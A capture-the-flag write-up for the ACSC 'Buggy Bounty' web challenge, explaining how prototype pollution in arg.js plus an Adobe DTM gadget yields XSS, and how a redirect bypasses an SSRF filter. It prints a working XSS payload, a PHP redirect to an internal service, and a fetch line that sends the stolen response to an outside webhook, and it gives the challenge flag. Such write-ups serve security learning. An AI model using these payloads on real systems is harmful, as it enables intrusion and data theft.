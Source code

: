 ```yaml
---
title: ACSC - [Buggy Bounty]
tags:
  - CTF
  - Write-up
  - web-exploitation
  - acsc
  - nodejs
  - server-side
  - client-side
  - prototype-pollution
  - ssrf
categories:
  - CTF
  - Write Up
---
```

![[Screenshot 2024-03-31 at 19.33.40.png]]
# Prologue
An online CTF competition by ACSC, this competition is qualification for competing in ICC for ASIA category.

![[buggy-bounty.tar.gz]]
# Write Up
## TL;DR Solution

Exploiting prototype pollution to achieve XSS with gadget in Adobe DTM. After that, chaining a Bypass SSRF to get the flag.

## Detailed Explanation

### Initial Analysis

We were given a simple web-app with this directory structure.
![[Screenshot 2024-04-01 at 01.39.36.png]]

The flag location is in the `./reward` application, where the flag is hosted in HTTP

```python
# ./reward/app.py
# 8< -- snip -- >8
@app.route('/bounty', methods=['GET'])
def get_bounty():
    flag = os.environ.get('FLAG')
    if flag:
        return flag
# 8< -- snip -- >8
```

After that, it host a simple bug bounty triaging.
![[Screenshot 2024-04-01 at 01.46.10.png]]

#### Prototype Pollution to XSS
Looking at the file, there's a `arg-1.4.js` which is [vulnerable](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md) to prototype pollution. And we can see, there's `launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js`, we can use this library to use it as [gadget](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/adobe-dtm.md) to achieve XSS.


```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
router.get("/triage", (req, res) => {
  try {
    if (!isAdmin(req)) { //[1]
      return res.status(401).send({
        err: "Permission denied",
      });
    }
    let bug_id = req.query.id;
    let bug_url = req.query.url;
    let bug_report = req.query.report;

    return res.render("triage.html", {
      id: bug_id,
      url: bug_url,
      report: bug_report,
    });
  } catch (e) {
    res.status(500).send({
      error: "Server Error",
    });
  }
});
// 8< -- snip - snip -- >8
```
These files were loaded in the `/triage` route, which protected by admin (or bot) only [1].


To proof the existence of XSS, i need to little bit modify the `isAdmin()` function. 

```
__proto__[src]=data:,alert(1)//
```
![[Screenshot 2024-04-01 at 12.48.54.png]]

#### Bypassing SSRF

There's another suspicious route in this challenge, and it was a `/check_valid_url`.
```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
const ssrfFilter = require("ssrf-req-filter");
// 8< -- snip - snip -- >8
router.get("/check_valid_url", async (req, res) => {
  try {
    if (!isAdmin(req)) {
      return res.status(401).send({
        err: "Permission denied",
      });
    }

    const report_url = req.query.url;
    const customAgent = ssrfFilter(report_url); //[2]
    
    request( //[3]
      { url: report_url, agent: customAgent },
      function (error, response, body) {
        if (!error && response.statusCode == 200) {
          res.send(body);
        } else {
          console.error("Error:", error);
          res.status(500).send({ err: "Server error" });
        }
      }
    );
  } catch (e) {
    res.status(500).send({
      error: "Server Error",
    });
  }
});
// 8< -- snip - snip -- >8
```

As we can see, this route limited into admin only. Our input will be filtered with `ssrfFilter` [2]. After that, The input will be on requested by `request` library [3].  

By looking at the library requests, i found there's an open security issue by [Doyensec](https://github.com/request/request/issues/3442)

We can just host a HTTPS web server and redirect it to local network. 
### Exploitation

If we looking at the DOM after prototype pollution, we are actually polluting the `src` in the `script` tag, we can just host a file to prevent any encoding issue.
![[Screenshot 2024-04-01 at 14.31.56.png]]

The JS file
```js
fetch(`/check_valid_url?admin=1&url=https://.ngrok-free.app/`).then((r)=>r.text().then((r)=>window.location=`http://webhook/`+(r)))
```

Host a PHP file to redirect the `request` library into `http://reward:5000/bounty`
```php
<?php
header('Location: http://reward:5000/bounty');
```

As we can see in below snippet, our input isn't sanitized, So, we can make use of this feature to add arbitrary parameter to pollute the client.
```js
// ./bugbounty/app/routes/routes.js
// 8< -- snip - snip -- >8
router.post("/report_bug", async (req, res) => {
  try {
    const id = req.body.id;
    const url = req.body.url;
    const report = req.body.report;
    await visit(
      `http://127.0.0.1/triage?id=${id}&url=${url}&report=${report}`,
      authSecret
    );
  } catch (e) {
    console.log(e);
    return res.render("index.html", { err: "Server Error" });
  }
  const reward = Math.floor(Math.random() * (100 - 10 + 1)) + 10;
  return res.render("index.html", {
    message: "Rewarded " + reward + "$",
  });
});
```

![[Screenshot 2024-04-01 at 21.52.02.png]]

Checking the webhook and we can see the flag
![[Screenshot 2024-04-01 at 21.52.22.png]]

FLAG: `ACSC{y0u_4ch1eved_th3_h1ghest_r3w4rd_1n_th3_Buggy_Bounty_pr0gr4m}`







